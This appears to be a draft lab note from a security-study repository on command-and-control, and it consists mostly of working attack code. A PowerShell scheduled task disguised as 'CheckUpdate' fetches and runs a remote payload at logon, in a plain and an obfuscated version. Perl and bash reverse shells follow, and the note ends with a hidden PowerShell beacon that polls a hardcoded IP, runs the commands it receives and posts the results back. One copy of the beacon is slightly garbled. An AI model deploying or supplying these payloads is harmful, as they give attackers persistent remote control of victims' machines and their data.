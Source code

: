 # Command&Control [draft]

## Setup Lab
- WiFiDuck
- Windows guest
- Remote Host (C2)

Windows Task
$a = New-ScheduledTaskAction -Execute 'powershell' -Argument '$rawcmd = Invoke-webrequest -URI https://raw.githubusercontent.com/roccosicilia/InfoSecStudy/main/Labz/statics/payload_tast_c2_sample.txt -UseBasicParsing; Invoke-Expression $rawcmd;';

$a = New-ScheduledTaskAction -Execute 'powershell' -Argument '$JXA8LuZ6wZqcb2vk6MG1qrV0C3qJ9guNdvJlRLFn3p2mns9HeyFJPfyPEY8TvOnUPVj3fRZWeYU4UYPLf6aSKXhPNRUZGZ9FQoRHKXMfVX3uCMIaP9fEqGULQJMIfbXDoU3XUSW1bOF8U3IZdoCsxVSEF7hXcp9hE9NddNfluRDXBU23u3QbNX0lpyehJCYzYxc9rM5LALWkHt9Nts8Ajpf60MKavUE9vYdUx31rbBp0TRLgSRCPNyQc6aihywFNccrVRUCInuphzzJEH8fOiYk1J3MM1htFvWHoqoUeh9RUNTcVY1IJBYmSDwC7K3ZdmY2fubYdgBkJNhDL1o4nvfXthbYVK = 'Inv'+'OKE-'+'webre'+'QuEsT' -URI https://raw.githubusercontent.com/roccosicilia/InfoSecStudy/main/Labz/statics/payload_tast_c2_sample.txt -UseBasicParsing; 'In'+'VokE-'+'E'+'XpRes'+'sIOn' $JXA8LuZ6wZqcb2vk6MG1qrV0C3qJ9guNdvJlRLFn3p2mns9HeyFJPfyPEY8TvOnUPVj3fRZWeYU4UYPLf6aSKXhPNRUZGZ9FQoRHKXMfVX3uCMIaP9fEqGULQJMIfbXDoU3XUSW1bOF8U3IZdoCsxVSEF7hXcp9hE9NddNfluRDXBU23u3QbNX0lpyehJCYzYxc9rM5LALWkHt9Nts8Ajpf60MKavUE9vYdUx31rbBp0TRLgSRCPNyQc6aihywFNccrVRUCInuphzzJEH8fOiYk1J3MM1htFvWHoqoUeh9RUNTcVY1IJBYmSDwC7K3ZdmY2fubYdgBkJNhDL1o4nvfXthbYVK;';

$t = New-ScheduledTaskTrigger -AtLogon;

Register-ScheduledTask -Action $a -Trigger $t -TaskPath "CheckUpdate" -TaskName "CheckUpdate" -Description "Check update."

## Villain C2

``` perl
# simple perl payload
perl -MIO::Socket::INET -e '$s=IO::Socket::INET->new(PeerAddr=>"*LHOST*",PeerPort=>*LPORT*,Proto=>"tcp");open(STDIN, "<&", $s);open(STDOUT, ">&", $s);open(STDERR, ">&", $s);exec "/bin/bash"'
```

``` bash
# very simple bash payload
nohup /bin/bash -c 'bash -i >& /dev/tcp/*LHOST*/*LPORT* 0>&1 &'
```

test

Start-Process $PSHOME\powershell.exe -ArgumentList {$ConfirmPreference="None";$s='15.160.157.227:8080';$i='892957-d12d93-6f28d8';$p='http://';$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/892957/$env:COMPUTERNAME/$env:USERNAME -Headers @{"Authorization"=$i};for (;;){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/d12d93 -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=Invoke-Expression $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$x=Invoke-RestMethod -Uri $p$s/6f28d8 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}} -WindowStyle Hidden

Start'Process $PSHOMEùpowershell.exe -ArgumentList {$ConfirmPreference="None";$s='15.160.157.227:8080';$i='892957-d12d93-6f28d8';$p='http://';$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/892957/$env:COMPUTERNAME/$env:USERNAME -Headers @{"Authorization"=$i};for (;;){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/d12d93 -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=Invoke-Expression $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$x=Invoke-RestMethod -Uri $p$s/6f28d8 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}} -WindowStyle Hidden